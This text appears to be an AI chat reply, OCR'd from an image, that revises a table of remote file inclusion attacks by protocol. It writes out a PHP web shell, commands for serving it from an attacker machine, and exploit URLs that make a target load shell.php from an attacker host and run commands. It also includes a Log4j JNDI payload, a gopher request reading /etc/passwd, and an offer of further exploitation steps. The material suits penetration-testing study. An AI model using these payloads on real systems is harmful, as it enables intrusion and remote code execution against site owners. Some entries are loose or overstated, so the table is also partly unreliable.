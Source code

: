 Revised Table

Here’s a corrected version with clarifications:

|Protocol|Description|Example Exploit Command|Exploitation URL / Command|
|---|---|---|---|
|HTTP (80/443)|Delivers payload via web request|echo '<?php system($_GET["cmd"]); ?>' > shell.php<br><br>sudo python3 -m http.server 8081|http://<TARGET_IP>/index.php?language=http://<ATTACKER_IP>:8081/shell.php&cmd=id|
|FTP (21)|Loads malicious file via FTP|sudo python -m pyftpdlib -p 21|http://<TARGET_IP>/index.php?language=ftp://<ATTACKER_IP>/shell.php&cmd=id|
|SMB (445)|Exploits file inclusion via SMB|impacket-smbserver -smb2support share $(pwd)|http://<TARGET_IP>/index.php?language=\\<ATTACKER_IP>\share\shell.php&cmd=whoami|
|TFTP (69)|Transfers malicious script via TFTP|sudo tftpd -L -p 69<br><br>(serve<br><br>shell.php<br><br>)|http://<TARGET_IP>/index.php?language=tftp://<ATTACKER_IP>/shell.php&cmd=id|
|Gopher|SSRF via gopher://, may lead to RCE|curl "gopher://<TARGET_IP>:3306/_%00SELECT%20load_file('/etc/passwd')"|SSRF, indirect RCE via backend vuln|
|LDAP (389)|RCE via LDAP injection (app vuln)|ldapsearch -x -H ldap://<TARGET_IP> -D "cn=admin,dc=example,dc=com" -w password|Requires app vuln (e.g., Log4j:<br><br>${jndi:ldap://<ATTACKER_IP>/a}<br><br>)|
|DNS (53)|Data exfiltration via DNS query|dig @<TARGET_IP> example.com TXT|Exfiltration, not RCE|
|NFS (2049)|Mounts remote dirs for payload|mount -t nfs <TARGET_IP>:/exports /mnt/nfs|Execute payload via LFI (e.g.,<br><br>file:///mnt/nfs/shell.php<br><br>)|
|WebDAV (80/443)|Uploads web shell via WebDAV|cadaver http://<TARGET_IP>/webdav<br><br>+<br><br>put shell.php|Upload shell:<br><br>PUT shell.php|
|IMAP (143/993)|RCE via email (requires delivery)|openssl s_client -connect <TARGET_IP>:143 -quiet<br><br>(after SMTP delivery)|Payload executed by vuln client/server|
|SMTP (25/587)|Delivers payload via email|swaks --to victim@example.com --data "<?php system($_GET['cmd']); ?>"|RCE via vuln email processing|

---

Final Verdict

- Accuracy: Mostly correct; some entries overstate RCE (DNS, LDAP, IMAP, SMTP) or have minor command issues (TFTP, Gopher).
    
- Feasibility: All are plausible with vulnerable targets; clarified dependencies (e.g., app vulns for LDAP).
    
- Corrections: Adjusted descriptions and commands for precision.
    

The table is solid with minor refinements. Let me know if you want detailed exploitation steps for any protocol!